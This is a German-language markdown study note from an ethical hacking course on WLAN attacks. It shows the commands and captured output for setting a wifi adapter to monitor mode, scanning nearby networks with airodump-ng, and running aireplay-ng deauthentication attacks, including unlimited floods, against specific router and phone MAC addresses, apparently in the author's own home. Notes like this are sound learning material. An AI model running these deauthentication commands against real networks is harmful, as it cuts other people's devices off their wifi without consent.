 ```yaml
---
title: Network (WLAN) Hacking
subtitle: Udemi Ethical Hacking Course (Zaid Sabih)
---
```




```sh
$ iwconfig      
lo        no wireless extensions.

eth0      no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr=2347 B   Fragment thr:off
          Power Management:off
```



# Monitor mode aktivieren

```sh
$ ifconfig wlan0 down
```

Alle Prozess stoppen die evtl. auf den WLAN Adapter zugreifen:

```sh
$ airmon-ng check kill

Killing these processes:

    PID Name
   1154 wpa_supplicant

```

Monitor mode aktivieren:

```sh
$ iwconfig wlan0 mode monitor
```

Mögliche Fehlermeldung:

```
Error for wireless request "Set Mode" (8B06) :
    SET failed on device wlan0 ; Device or resource busy.
```

Evtl. noch einmal

```sh
$ ifconfig wlan0 down
```

Informationen zum Adapter

```sh
$ airmon-ng

PHY     Interface       Driver          Chipset

phy0    wlan0           rtl8192cu       Edimax Technology Co., Ltd EW-7811Un 802.11n [Realtek RTL8188CUS]
```

Check ob Monitor Mode aktiv

```sh
$ iwconfig                   
wlan0     IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr=2347 B   Fragment thr:off
          Power Management:off
```

```sh
$ ifconfig wlan0 up
```

Testen mit Wireshark

Komplett:

```sh
ifconfig wlan0 down;airmon-ng check kill;iwconfig wlan0 mode monitor;ifconfig wlan0 up
```



# airodump-ng

```sh
$ airodump-ng wlan0

CH  8 ][ Elapsed: 2 mins ][ 2021-07-28 10:32                                                                                    
                                                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                 
                                                                                                                                 
 7C:FF:4D:DF:C2:A5  -49       83        0    0  11  195   WPA2 CCMP   PSK  Malepartus                                            
 E0:28:6D:7B:FA:94  -74       69       62    0  11  720   WPA2 CCMP   PSK  Malepartus                                            
 B8:BE:F4:00:F3:02  -86       75        0    0   6  130   WPA2 CCMP   PSK  Casa_Flip_5G                                          
                                                                                                                                 
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                               
                                                                                                                                 
 (not associated)   50:1E:2D:04:DD:86  -61    0 - 1      0        1         Malepartus                                           
 (not associated)   DA:09:EA:67:DB:8C  -79    0 - 1      0        2                                                              
 (not associated)   F2:8B:1B:3A:56:7F  -49    0 - 1      0        1                                                              
 (not associated)   4E:CA:CB:19:AA:D1  -87    0 - 1      0        2         Malepartus                                           
 (not associated)   0A:63:38:F4:02:53  -83    0 - 1      0        1         Malepartus                                           
 (not associated)   8A:15:0E:55:ED:64  -59    0 - 1      0        4                                                              
 (not associated)   AC:89:95:F5:AA:91  -85    0 - 1      0        1         Malepartus   
```

[Beschreibung](https://www.elektronik-kompendium.de/sites/net/2008071.htm)

Zeigt nur 2.4 GHz (nicht 5 GHz)

Es gibt nicht viele Adapter die auf 5 GHz Monitor Mode unterstützen. Hinweis: Edimax Technology Co., Ltd EW-7811Un unterstützt kein 5 GHz!

5GHz:

```sh
$ airodump-ng --band a wlan0
CH 118 ][ Elapsed: 48 s ][ 2021-07-28 10:38                                                                                     
                                                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                 
                                                                                                                                 
                                                                                                                                 
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                               

```



2.4GHz und 5GHz:

```sh
$ airodump-ng --band abg wlan0

CH 58 ][ Elapsed: 2 mins ][ 2021-07-28 10:41                                                                                    
                                                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                 
                                                                                                                                 
 7C:FF:4D:DF:C2:A5  -48       26        0    0  11  195   WPA2 CCMP   PSK  Malepartus                                            
 E0:28:6D:7B:FA:94  -82       27      220    1  11  720   WPA2 CCMP   PSK  Malepartus                                            
 B8:BE:F4:00:F3:02  -85       40        0    0   6  130   WPA2 CCMP   PSK  Casa_Flip_5G                                          
                                                                                                                                 
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                               
                                                                                                                                 
 (not associated)   28:F0:76:0C:00:D2  -37    0 - 1      0        3                                                              
 (not associated)   3E:18:ED:53:8B:59  -49    0 - 1      0        1                                                              
 (not associated)   50:1E:2D:04:DD:86  -69    0 - 1      0        1         Malepartus                                           
 (not associated)   AC:89:95:F5:AA:91  -83    0 - 1      0        1         Malepartus                                           
 (not associated)   C2:3D:69:76:9F:6D  -59    0 - 1      0        4                                                              
 (not associated)   76:CD:B7:AA:AC:CD  -59    0 - 1      0        2                                                              
 (not associated)   F6:E2:FB:BA:F1:59  -47    0 - 1      0        1                                                              
 (not associated)   CA:5F:62:6D:E4:51  -73    0 - 1      0        2         Malepartus                                           
 (not associated)   5A:45:BA:2A:F7:33  -73    0 - 1      0        1                                                              
 (not associated)   1C:91:80:BD:8D:9D  -71    0 - 1      0        9         Malepartus                                           
 (not associated)   32:CA:48:EA:66:22  -61    0 - 1      0        1         Malepartus                                           
 (not associated)   B6:1C:85:4F:C7:79  -59    0 - 1      0        1         Malepartus                                           
 (not associated)   B6:DD:BC:B4:19:E7  -59    0 - 1      0        1                                                              
 (not associated)   32:67:AE:EC:54:F1  -57    0 - 1      0        2         Malepartus                                           
 (not associated)   76:71:08:B4:BB:63  -55    0 - 1      0        1                                                              
 E0:28:6D:7B:FA:94  EA:82:85:70:C1:FC   -1    1e- 0      0        1
```

Nur eine bestimmte Basisstation und Kanal beobachten, Ergebnis in eine Datei schreiben:

```sh
$ airodump-ng --bssid B8:BE:F4:00:F3:02 --channel 6 --write Casa_Flip_5G wlan0

CH  6 ][ Elapsed: 42 s ][ 2021-07-28 10:45                                                                                      
                                                                                                                                 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                             
                                                                                                                                 
 B8:BE:F4:00:F3:02  -85  37      191        0    0   6  130   WPA2 CCMP   PSK  Casa_Flip_5G                                      
                                                                                                                                 
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                                               

```

Es werden mehrere Dateien mit unterschiedlichen Endungen erzeugt. Z.B. `.cap` File kann mit wireshark geöffnet werden (`Casa_Flip.txt-01.cap`).



# Deauthentication Attack

![image-20210728185016330](fig/image-20210728185016330.png)

```sh
$ aireplay-ng --deauth <#DeauthPackets> -a <RouterMAC> -c <TargetMAC> <interface>
# -a ... AP (access point) MAC adress (BSSID)
# -c ... client to disconnect
# -D ... 5GHz
```



![image-20210728185056598](fig/image-20210728185056598.png)



![image-20210728185108443](fig/image-20210728185108443.png)



```
Fritz Box EG-BSSID: E0:28:6D:7B:FA:94 (MAC E0:28:6D:7B:FA:91) (192.168.178.1)
Fritz Box OG-BSSID: 7C:FF:4D:DF:C2:A5 (MAC 62:FF:4D:DF:C2:A5) (192.168.178.40)
BeoPlay M3:   50:1E:2D:04:DD:86
FranziPhone: 8A:42:87:22:F5:8A (192.168.178.62)


aireplay-ng --deauth 10000 -a 7C:FF:4D:DF:C2:A5 -c 50:1E:2D:04:DD:86 wlan0

aireplay-ng --deauth 1 -a 7C:FF:4D:DF:C2:A5 -c 50:1E:2D:04:DD:86 wlan0

# ständig wiederholen
aireplay-ng --deauth 0 -a 7C:FF:4D:DF:C2:A5 -c 50:1E:2D:04:DD:86 wlan0 
```

BTW: Die (mit nmap ermittelten) MAC Adressen der access points stimmen nicht ganz mit der BSSID zusammen (hmmmm):

> **BSSID** is the Basic Service Set Identifier, a unique 48-bit label associated with an individual access point and set of clients affiliated with a specific service set. Often, this will just be the MAC address (or a derivative thereof) of the access point radio.

Manchmal scheint `aireplay-ng` nicht den richtigen Kanal zu finden...

```sh
$ aireplay-ng --deauth 1 -a 7C:FF:4D:DF:C2:A5 -c 50:1E:2D:04:DD:86 wlan0
06:49:02  Waiting for beacon frame (BSSID: 7C:FF:4D:DF:C2:A5) on channel 9
06:49:15  No such BSSID available.
```

Hier wäre 11 der richtige Kanal:

```sh
$ aireplay-ng --deauth 1000 -a 7C:FF:4D:DF:C2:A5 -c 50:1E:2D:04:DD:86 wlan0
06:51:51  Waiting for beacon frame (BSSID: 7C:FF:4D:DF:C2:A5) on channel 10
06:51:51  wlan0 is on channel 10, but the AP uses channel 11
```

Lösung: `airodump-ng` darf nicht gerade laufen und den **richtigen Kanal** einstellen:

```sh
$ airmon-ng start wlan0 11
```

Oder vielleicht sogar besser vorher `airodump-ng` mit der Option `--channel` verwenden.

```sh
# iPhone
# Fritz Box OG-BSSID: 7C:FF:4D:DF:C2:A5 (MAC 62:FF:4D:DF:C2:A5) (192.168.178.40)
# FranziPhone: 8A:42:87:22:F5:8A (192.168.178.62)
$ airodump-ng --bssid 7C:FF:4D:DF:C2:A5 --channel 11 wlan0
$ aireplay-ng --deauth 0 -a 7C:FF:4D:DF:C2:A5 -c 8A:42:87:22:F5:8A wlan0
```

